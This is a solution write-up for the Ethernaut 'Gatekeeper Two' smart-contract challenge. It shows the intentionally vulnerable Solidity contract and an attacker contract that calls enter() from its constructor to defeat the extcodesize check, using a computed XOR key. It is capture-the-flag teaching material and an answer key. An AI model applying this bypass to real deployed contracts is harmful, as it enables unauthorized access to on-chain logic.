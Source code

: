 # Gatekeeper Two  
_difficulty 6/10_  

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.  
Things that might help:  
- Remember what you've learned from getting past the first gatekeeper - the first gate is the same.  
- The `assembly` keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See [here](http://solidity.readthedocs.io/en/v0.4.23/assembly.html) for more information. The `extcodesize` call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf).  
- The `^` character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [here](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.  

## Sources  

```javascript
pragma solidity ^0.4.18;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

## Level author  
0age  
0age@protonmail.com  
https://github.com/0age  

## Gatekeeper Two Solution

1. `require(msg.sender != tx.origin);`  
We need to use a proxy contract that will call the `enter` function.

2. The `extcodesize` has to equal 0.  
```javascript
  uint x;
  assembly { x := extcodesize(caller) }
  require(x == 0);
```
>During initialization code execution, EXTCODESIZE on the address should return zero, which is the length of the code of the account while CODESIZE should return the length of the initialization code.

If we call the `enter` function inside the constructor of our contract, the condition will be satisfied.

3. `uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1`  
The entire left side has to equal 0xFF...FF. We can calculate this by using the following line to get the key:  
`uint64(keccak256(address(this))) ^ (uint64(0) - 1)`  

4. Deploy the `GateKeyTwo.sol`. It will automatically unlock the instance.

```javascript
pragma solidity ^0.4.18;

contract GateKeyTwo {
  function GateKeyTwo(address gate) public {
    GatekeeperTwo _gate = GatekeeperTwo(gate);
    bytes8 key = bytes8(uint64(keccak256(address(this))) ^ (uint64(0) - 1));
    _gate.enter(key);
  }
}
```

5. Check if `player` is the entrant.  
`player === (await contract.entrant())`  
true

6. Submit instance 🎉 

## Lesson

Way to go! Now that you can get past the gatekeeper, you have what it takes to join [theCyber](https://etherscan.io/address/thecyber.eth#code), a decentralized club on the Ethereum mainnet. Get a passphrase by contacting the creator on [reddit](https://www.reddit.com/user/0age) or via [email](0age@protonmail.com) and use it to register with the contract at [gatekeepertwo.thecyber.eth](https://etherscan.io/address/gatekeepertwo.thecyber.eth#code) (be aware that only the first 128 entrants will be accepted by the contract).  
